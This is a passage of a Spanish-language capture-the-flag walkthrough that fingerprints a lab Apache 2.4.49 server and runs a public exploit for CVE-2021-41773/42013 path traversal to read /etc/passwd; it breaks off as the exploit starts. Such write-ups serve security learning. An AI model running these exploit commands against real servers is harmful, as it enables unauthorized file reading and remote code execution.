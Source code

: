
Veremos que nos encuentra un `html.html` que si entramos dentro del archivo veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>

Vemos lo que puede ser un usuario llamado `punky` y se centra mucho en la herramienta `ping`, vamos a probar a ponernos en escucha en la red sobre trafico `ICMP` que es el que genera al realizar un `ping`.

```shell
tcpdump -i <INTERFAZ_RED> icmp -A
```

Pero no veremos que recibamos nada, por lo que seguiremos buscando.

## Escalate user www-data

### Apache Path Traversal (RCE)

Vamos a ver en que version esta `apache2` ya que estuve un rato buscando pero no encontraba nada, vamos a ver si tuviera alguna version antigua.

```shell
whatweb http://<IP>/
```

Info:

```
http://172.17.0.2/ [200 OK] Apache[2.4.49], Country[RESERVED][ZZ], HTML5, HTTPServer[Unix][Apache/2.4.49 (Unix)], IP[172.17.0.2], Title[Comando Ping]
```

Vemos que la version es `2.4.49` vamos a ver si fuera vulnerable en `ExploitDB`, si buscamod en dicha pagina podremos ver que efectivamente lo es a un `Apache Path Traversal` pero tambien se puede ejecutar codigo de forma remota (`RCE`).

Vamos a descargarnos el siguiente repo de `GitHub` que es con el que me funciono.

URL = [exploit.py Apache Vuln GitHub](https://github.com/battleoverflow/apache-traversal/tree/main)

Una vez que nos hayamos copiado el archivo `exploit.py` vamos a probar a leer el `passwd` ejecutando el script de esta forma:

```shell
python3 exploit.py --cgi --ip <IP_VICTIM> --port 80 --path /etc/passwd -vs
```

Info:

```

        #################################################################
        #                                                               #
        #   CVE-2021-41773 & CVE-2021-42013 | "Apache Path Traversal"   #
        #   Author: battleoverflow                                      #
        #   GitHub: https://github.com/battleoverflow                   #
        #                                                               #
        #################################################################
        

Exploit running with CGI enabled...

[*] Attacking: 172.17.0.2
```